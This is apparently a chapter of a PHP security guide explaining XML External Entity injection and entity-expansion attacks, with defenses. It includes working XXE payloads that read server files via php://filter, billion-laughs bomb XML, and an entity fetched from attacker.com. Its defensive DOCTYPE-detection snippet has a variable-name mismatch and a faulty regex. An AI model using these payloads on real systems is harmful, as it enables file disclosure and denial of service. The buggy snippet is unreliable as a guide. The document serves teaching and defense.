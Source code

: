 XML Injection
=============

Despite the advent of JSON as a lightweight means of communicating data between a server and client, XML remains a viable and popular alternative that is often supported in parallel to JSON by web service APIs. Outside of web services, XML is the foundation of exchanging a diversity of data using XML schemas such as RSS, Atom, SOAP and RDF, to name but a few of the more common standards.

XML is so ubiquitous that it can also be found in use on the web application server, in browsers as the format of choice for XMLHttpRequest requests and responses, and in browser extensions. Given its widespread use, XML can present an attractive target for XML Injection attacks due to its popularity and the default handling of XML allowed by common XML parsers such as libxml2 which is used by PHP in the ``DOM``, ``SimpleXML`` and ``XMLReader`` extensions. Where the browser is an active participant in an XML exchange, consideration should be given to XML as a request format where authenticated users, via a Cross-Site Scripting attack, may be submitting XML which is actually written by an attacker.

XML External Entity Injection
-----------------------------

Vulnerabilities to an XML External Entity Injection (XXE) exist because XML parsing libraries will often support the use of custom entity references in XML. You'll be familiar with XML's standard complement of entities used to represent special markup characters such as ``&gt;``, ``&lt;``, and ``&apos;``. XML allows you to expand on the standard entity set by defining custom entities within the XML document itself. Custom entities can be defined by including them directly in an optional ``DOCTYPE`` and the expanded value they represent may reference an external resource to be included. It is this capacity of ordinary XML to carry custom references which can be expanded with the contents of an external resources that gives rise to an XXE vulnerability. Under normal circumstances, untrusted inputs should never be capable of interacting with our system in unanticipated ways and XXE is almost certainly unexpected for most programmers making it an area of particular concern.

For example, let's define a new custom entity called "harmless":

.. code-block:: xml

    <!DOCTYPE results [ <!ENTITY harmless "completely harmless"> ]>

An XML document with this entity definition can now refer to the &harmless; entity anywhere where entities are allowed:

.. code-block:: xml

    <?xml version="1.0"?>
    <!DOCTYPE results [<!ENTITY harmless "completely harmless">]>
    <results>
        <result>This result is &harmless;</result>
    </results>

An XML parser such as PHP DOM, when interpreting this XML, will process this custom entity as soon as the document loads so that requesting the relevant text will return the following:

    This result is completely harmless

Custom entities obviously have a benefit in representing repetitive text and XML with shorter named entities. It's actually not that uncommon where the XML must follow a particular grammar and where custom entities make editing simpler. However, in keeping with our theme of not trusting outside inputs, we need to be very careful as to what all the XML our application is consuming is really up to. For example, this one is definitely not of the harmless variety:

.. code-block:: xml

    <?xml version="1.0"?>
    <!DOCTYPE results [<!ENTITY harmless SYSTEM "file:///var/www/config.ini">]>
    <results>
        <result>&harmless;</result>
    </results>

Depending on the contents of the requested local file, the content could be used when expanding the ``&harmless;`` entity and the expanded content could then be extracted from the XML parser and included in the web application's output for an attacker to examine, i.e. giving rise to Information Disclosure. The file retrieved will be interpreted as XML unless it avoids the special characters that trigger that interpretation thus making the scope of local file content disclosure limited. If the file is intepreted as XML but does not contain valid XML, an error will be the likely result preventing disclosure of the contents. PHP, however, has a neat "trick" available to bypass this scope limitation and remote HTTP requests can still, obviously, have an impact on the web application even if the returned response cannot be communicated back to the attacker.

PHP offers three frequently used methods of parsing and consuming XML: PHP ``DOM``, ``SimpleXML`` and ``XMLReader``. All three of these use the ``libxml2`` extension and external entity support is enabled by default. As a consequence, PHP has a by-default vulnerability to XXE which makes it extremely easy to miss when considering the security of a web application or an XML consuming library.

You should also remember that XHTML and HTML5 may both be serialised as valid XML which may mean that some XHTML pages or XML-serialised HTML5 could be parsed as XML, e.g. by using ``DOMDocument::loadXML()`` instead of ``DOMDocument::loadHTML()``. Such uses of an XML parser are also vulnerable to XML External Entity Injection. Remember that ``libxml2`` does not currently even recognise the HTML5 ``DOCTYPE`` and so cannot validate it as it would for XHTML DOCTYPES.

Examples of XML External Entity Injection
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

File Content And Information Disclosure
"""""""""""""""""""""""""""""""""""""""

We previously met an example of Information Disclosure by noting that a custom entity in XML could reference an external file.

.. code-block:: xml

    <?xml version="1.0"?>
    <!DOCTYPE results [<!ENTITY harmless SYSTEM "file:///var/www/config.ini">]>
    <results>
        <result>&harmless;</result>
    </results>

This would expand the custom ``&harmless;`` entity with the file contents. Since all such requests are done locally, it allows for disclosing the contents of all files that the application has read access to. This would allow attackers to examine files that are not publicly available should the expanded entity be included in the output of the application. The file contents that can be disclosed in this are significantly limited - they must be either XML themselves or a format which won't cause XML parsing to generate errors. This restriction can, however, be completely ignored in PHP:

.. code-block:: xml

    <?xml version="1.0"?>
    <!DOCTYPE results [
        <!ENTITY harmless SYSTEM
        "php://filter/read=convert.base64-encode/resource=/var/www/config.ini"
        >
    ]>
    <results>
        <result>&harmless;</result>
    </results>

PHP allows access to a PHP wrapper in URI form as one of the protocols accepted by common filesystem functions such as ``file_get_contents()``, ``require()``, ``require_once()``, ``file()``, ``copy()`` and many more. The PHP wrapper supports a number of filters which can be run against a given resource so that the results are returned from the function call. In the above case, we use the ``convert.base-64-encode`` filter on the target file we want to read.

What this means is that an attacker, via an XXE vulnerability, can read any accessible file in PHP regardless of its textual format. All the attacker needs to do is base64 decode the output they receive from the application and they can dissect the contents of a wide range of non-public files with impunity. While this is not itself directly causing harm to end users or the application's backend, it will allow attackers to learn quite a lot about the application they are attempting to map which may allow them to discover other vulnerabilities with a minimum of effort and risk of discovery.

Bypassing Access Controls
"""""""""""""""""""""""""

Access Controls can be dictated in any number of ways. Since XXE attacks are mounted on the backend to a web application, it will not be possible to use the current user's session to any effect but an attacker can still bypass backend access controls by virtue of making requests from the local server. Consider the following primitive access control:

.. code-block:: php

    if (isset($_SERVER['HTTP_CLIENT_IP'])
        || isset($_SERVER['HTTP_X_FORWARDED_FOR'])
        || !in_array(@$_SERVER['REMOTE_ADDR'], array(
            '127.0.0.1',
            '::1',
        ))
    ) {
        header('HTTP/1.0 403 Forbidden');
        exit(
            'You are not allowed to access this file.'
        );
    }

This snippet of PHP and countless others like it are used to restrict access to certain PHP files to the local server, i.e. localhost. However, an XXE vulnerability in the frontend to the application actually gives an attacker the exact credentials needed to bypass this access control since all HTTP requests by the XML parser will be made from localhost.

.. code-block:: xml

    <?xml version="1.0"?>
    <!DOCTYPE results [
        <!ENTITY harmless SYSTEM
        "php://filter/read=convert.base64-encode/resource=http://example.com/viewlog.php"
        >
    ]>
    <results>
        <result>&harmless;</result>
    </results>

If log viewing were restricted to local requests, then the attacker may be able to successfully grab the logs anyway. The same thinking applies to maintenance or administration interfaces whose access is restricted in this fashion.

Denial Of Service (DOS)
"""""""""""""""""""""""

Almost anything that can dictate how server resources are utilised could feasibly be used to generate a DOS attack. With XML External Entity Injection, an attacker has access to make arbitrary HTTP requests which can be used to exhaust server resources under the right conditions.

See below also for other potential DOS uses of XXE attacks in terms of XML Entity Expansions.

Defenses against XML External Entity Injection
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Considering the very attractive benefits of this attack, it might be surprising that the defense is extremely simple. Since ``DOM``, ``SimpleXML``, and ``XMLReader`` all rely on ``libxml2``, we can simply use the ``libxml_disable_entity_loader()`` function to disable external entity resolution. This does not disable custom entities which are predefined in a ``DOCTYPE`` since these do not make use of external resources which require a file system operation or HTTP request.

.. code-block:: php

    $oldValue = libxml_disable_entity_loader(true);
    $dom = new DOMDocument();
    $dom->loadXML($xml);
    libxml_disable_entity_loader($oldValue);

You would need to do this for all operations which involve loading XML from a string, file or remote URI.

Where external entities are never required by the application or for the majority of its requests, you can simply disable external resource loading altogether on a more global basis which, in most cases, will be far more preferable to locating all instances of XML loading, bearing in mind many libraries are probably written with innate XXE vulnerabilities present:

.. code-block:: php
    
    libxml_disable_entity_loader(true);

Just remember to reset this once again to ``TRUE`` after any temporary enabling of external resource loading. An example of a process which requires external entities in an innocent fashion is rendering Docbook XML into HTML where the XSL styling is dependent on external entities.

This ``libxml2`` function is not, by an means, a silver bullet. Other extensions and PHP libraries which parse or otherwise handle XML will need to be assessed to locate their "off" switch for external entity resolution.

In the event that the above type of behaviour switching is not possible, you can alternatively check if an XML document declares a ``DOCTYPE``. If it does, and external entities are not allowed, you can then simply discard the XML document, denying the untrusted XML access to a potentially vulnerable parser, and log it as a probable attack. If you log attacks this will be a necessary step since there be no other errors or exceptions to catch the attempt. This check should be built into your normal Input Validation routines. However, this is far from ideal and it's strongly recommended to fix the external entity problem at its source.

.. code-block:: php
    
    /**
     * Attempt a quickie detection
     */
    $collapsedXML = preg_replace("/[:space:]/", '', $xml);
    if(preg_match("/<!DOCTYPE/i", $collapsedXml)) {
        throw new \InvalidArgumentException(
            'Invalid XML: Detected use of illegal DOCTYPE'
        );
    }
    

It is also worth considering that it's preferable to simply discard data that we suspect is the result of an attack rather than continuing to process it further. Why continue to engage with something that shows all the signs of being dangerous? Therefore, merging both steps from above has the benefit of proactively ignoring obviously bad data while still protecting you in the event that discarding data is beyond your control (e.g. 3rd-party libraries). Discarding the data entirely becomes far more compelling for another reason stated earlier - ``libxml_disable_entity_loader()`` does not disable custom entities entirely, only those which reference external resources. This can still enable a related Injection attack called XML Entity Expansion which we will meet next.

XML Entity Expansion
--------------------

XML Entity Expansion is somewhat similar to XML Entity Injection but it focuses primarily on enabling a Denial Of Service (DOS) attack by attempting to exhaust the resources of the target application's server environment. This is achieved in XML Entity Expansion by creating a custom entity definition in the XML's ``DOCTYPE`` which could, for example, generate a far larger XML structure in memory than the XML's original size would suggest thus allowing these attacks to consume memory resources essential to keeping the web server operating efficiently. This attack also applies to the XML-serialisation of HTML5 which is not currently recognised as HTML by the ``libxml2`` extension.

Examples of XML Entity Expansion 
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

There are several approaches to expanding XML custom entities to achieve the desired effect of exhausting server resources.

Generic Entity Expansion
""""""""""""""""""""""""

Also known as a "Quadratic Blowup Attack", a generic entity expansion attack, a custom entity is defined as an extremely long string. When the entity is used numerous times throughout the document, the entity is expanded each time leading to an XML structure which requires significantly more RAM than the original XML size would suggest.

.. code-block:: xml

    <?xml version="1.0"?>
    <!DOCTYPE results [<!ENTITY long "SOME_SUPER_LONG_STRING">]>
    <results>
        <result>Now include &long; lots of times to expand
        the in-memory size of this XML structure</result>
        <result>&long;&long;&long;&long;&long;&long;&long;
        &long;&long;&long;&long;&long;&long;&long;&long;
        &long;&long;&long;&long;&long;&long;&long;&long;
        &long;&long;&long;&long;&long;&long;&long;&long;
        Keep it going...
        &long;&long;&long;&long;&long;&long;&long;...</result>
    </results>

By balancing the size of the custom entity string and the number of uses of the entity within the body of the document, it's possible to create an XML
file or string which will be expanded to use up a predictable amount of server RAM. By occupying the server's RAM with repetitive requests of this nature, it would be possible to mount a successful Denial Of Service attack. The downside of the approach is that the initial XML must itself be quite large since the memory consumption is based on a simple multiplier effect.

Recursive Entity Expansion
""""""""""""""""""""""""""

Where generic entity expansion requires a large XML input, recursive entity expansion packs more punch per byte of input size. It relies on the XML parser to exponentially resolve sets of small entities in such a way that their exponential nature explodes from a much smaller XML input size into something substantially larger. It's quite fitting that this approach is also commonly called an "XML Bomb" or "Billion Laughs Attack".

.. code-block:: xml

    <?xml version="1.0"?>
    <!DOCTYPE results [
        <!ENTITY x0 "BOOM!">
        <!ENTITY x1 "&x0;&x0;">
        <!ENTITY x2 "&x1;&x1;">
        <!ENTITY x3 "&x2;&x2;">
        <!-- Add the remaining sequence from x4...x100 (or boom) -->
        <!ENTITY x99 "&x98;&x98;">
        <!ENTITY boom "&x99;&x99;">
    ]>
    <results>
        <result>Explode in 3...2...1...&boom;</result>
    </results>

The XML Bomb approach doesn't require a large XML size which might be restricted by the application. It's exponential resolving of the entities results in a final text expansion that is 2^100 times the size of the ``&x0;`` entity value. That's quite a large and devastating BOOM!

Remote Entity Expansion
"""""""""""""""""""""""

Both normal and recursive entity expansion attacks rely on locally defined entities in the XML's DTD but an attacker can also define the entities externally. This obviously requires that the XML parser is capable of making remote HTTP requests which, as we met earlier in describing XML External Entity Injection (XXE), should be disabled for your XML parser as a basic security measure. As a result, defending against XXEs defends against this form of XML Entity Expansion attack.
 
Nevertheless, the way remote entity expansion works is by leading the XML parser into making remote HTTP requests to fetch the expanded value of the referenced entities. The results will then themselves define other external entities that the XML parser must additionally make HTTP requests for. In this way, a couple of innocent looking requests can rapidly spiral out of control adding strain to the server's available resources with the final result perhaps itself encompassing a recursive entity expansion just to make matters worse.
 
.. code-block:: xml
 
    <?xml version="1.0"?>
    <!DOCTYPE results [
        <!ENTITY cascade SYSTEM "http://attacker.com/entity1.xml">
    ]>
    <results>
        <result>3..2..1...&cascade<result>
    </results>
 
The above also enables a more devious approach to executing a DOS attack should the remote requests be tailored to target the local application or any other application sharing its server resources. This can lead to a self-inflicted DOS attack where attempts to resolve external entities by the XML parser may trigger numerous requests to locally hosted applications thus consuming an even greater propostion of server resources. This method can therefore be used to amplify the impact of our earlier discussion about using XML External Entity Injection (XXE) attacks to perform a DOS attack.

Defenses Against XML Entity Expansion
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

The obvious defenses here are inherited from our defenses for ordinary XML External Entity (XXE) attacks. We should disable the resolution of custom entities in XML to local files and remote HTTP requests by using the following function which globally applies to all PHP XML extensions that internally use ``libxml2``.

.. code-block:: php

    libxml_disable_entity_loader(true);

PHP does, however, have the quirky reputation of not implementing an obvious means of completely disabling the definition of custom entities using an XML DTD via the ``DOCTYPE``. PHP does define a ``LIBXML_NOENT`` constant and there also exists public property ``DOMDocument::$substituteEntities`` but neither if used has any ameliorating effect. It appears we're stuck with using a makeshift set of workarounds instead.

Nevertheless, ``libxml2`` does has a built in default intolerance for recursive entity resolution which will light up your error log like a Christmas tree. As such, there's no particular need to implement a specific defense against recursive entities though we should do something anyway on the off chance ``libxml2`` suffers a relapse.

The primary new danger therefore is the inelegent approach of the Quadratic Blowup Attack or Generic Entity Expansion. This attack requires no remote or local system calls and does not require entity recursion. In fact, the only defense is to either discard XML or sanitise XML where it contains a ``DOCTYPE``. Discarding the XML is the safest bet unless use of a ``DOCTYPE`` is both expected and we received it from a secured trusted source, i.e. we received it over a peer-verified HTTPS connection. Otherwise we need to create some homebrewed logic in the absence of PHP giving us a working option to disable DTDs. Assuming you can called ``libxml_disable_entity_loader(TRUE)``, the following will work safely since entity expansion is deferred until the node value infected by the expansion is accessed (which does not happen during this check).

.. code-block:: php

    $dom = new DOMDocument;
    $dom->loadXML($xml);
    foreach ($dom->childNodes as $child) {
        if ($child->nodeType === XML_DOCUMENT_TYPE_NODE) {
            throw new \InvalidArgumentException(
                'Invalid XML: Detected use of illegal DOCTYPE'
            );
        }
    }

The above is, of course, should be backed up by having ``libxml_disable_entity_loader`` set to ``TRUE`` so external entity references are not resolved when the XML is initially loaded. Where an XML parser is not reliant on ``libxml2`` this may be the only defense possible unless that parser has a comprehensive set of options controlling how entities can be resolved.

Where you are intent on using ``SimpleXML``, bear in mind that you can import a checked ``DOMDocument`` object using the ``simplexml_import_dom()`` function.


SOAP Injection
--------------

TBD
